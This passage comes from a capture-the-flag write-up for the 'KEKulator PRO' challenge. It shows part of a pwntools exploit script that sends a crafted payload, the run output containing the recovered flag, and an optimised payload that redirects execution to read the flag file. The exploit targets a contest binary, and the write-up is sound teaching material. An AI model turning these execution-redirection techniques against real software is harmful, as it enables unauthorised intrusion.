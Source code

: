 ```py
6900000""".splitlines()
payload += ["0000000" for _ in range(664)]
payload += """0010065
6970000
0000000
0000680""".splitlines()

for x in payload:
    send(x)
p.sendline(b"done")

log.info(f"{ops+1} operations")
p.interactive()
```

Which, when ran, gives

```
[*] 706 operations
[*] Switching to interactive mode
Welcome to KEKulator PRO!
Your starting number: 1!
This is a blackbox so I won't tell you what to do...teehee
sctf{re_and_pwn_in_the_same_challenge?wow!}umber: 1!
Program exited with exit code 0
[*] Got EOF while reading in interactive
```

We now have a flag, but 706 operations is (sadly) just SIX operations above the 700 operations limit for the prize. Can we do better?

There are a few observations that can lead to improvements upon the current solution.
1. There is a large section of ~2400 bytes between the payload at the front and the `eip` redirection at the back whose contents we don't really need to care about.
2. It is incredible wasteful to do things 7 nibbles at a time, when the highest number we can multiply by is `0xffffffff`, ~16 times larger than `0x10000000`, resulting in a potential reduction of about 15 operations.
3. Instead of adding then multiplying, solutions using mostly multiplication should be preferred, to cut the number of operations even further.

Instead of repeatedly multiplying by `0x10000000`, we can use `0xffffffff` to bridge the gap between 116 and 2504 faster. Since the upper bytes of `ecx` won't stay nice when multiplied by `0xffffffff`, but the lower 4 bytes flip flop between `0xffffffff` and `0x00000001`, we can instead move everything to the end[^2], right before index 2504.

After trying multiple different ways of organising the payload and building it with arithmetic operations, I eventually settled on this:

```
2432: 666c6167000000
      "flag\x00\x00\x00"
2439: 00000001 00656378 00000000 00000980
      add ecx 0 2432
2455: 000000dd 00000002 00656378 00657369
      call 2 ecx esi
2471: 0000000f 00657369 00000000 00000000
      regtomem esi 0 0
2487: 000000dd 00000000 00656469 00000000
      call 0 edi 0
2503: 00
2504: 0000000c 00000987
      jmp 2439
```


[^1]: the notation is a bit messy because \(a\) is the variable and \(x_i\) are constants, but eh
[^2]: i contemplated letting `"flag\x00"` stay at the front but couldnt find a thing to multiply by that fits in 4 bytes and would make the prefix `"flag\x00"`, so i gave up and just moved it to the back too
[^3]: although the program still crashes because its trying to get a string at too large an index in memory, at least its not an infinite loop anymore
[^4]: you can actually choose how many nibbles you want to put between `"flag"` and the rest of the payload, as long as you pad it out to be a multiple of 4 bytes before index 2504. i tested all possible combinations and it turns out `"flag\x00\x00"` and `"flag\x00\x00\x00"` work the best because they align the nibbles just right so that there are more `0000000`s that are sent, minimising the number of `add`s
[^5]: it also doesnt give enough precision, which is annoying
[^6]: funnily enough a week before the ctf i was thinking of updating sage but decided against it because i thought there wouldn't be any major changes since theyre both version 10.x
[^7]: a side effect of running this is that a LOT of things no longer work and you get a lot of `KeyError: 'unknown symbol table entry'`, because number equality is checked for most things in Python and if you flip a `True` result to a `False` when the interpreter is trying to determine what an object is it's basically like it doesn't exist anymore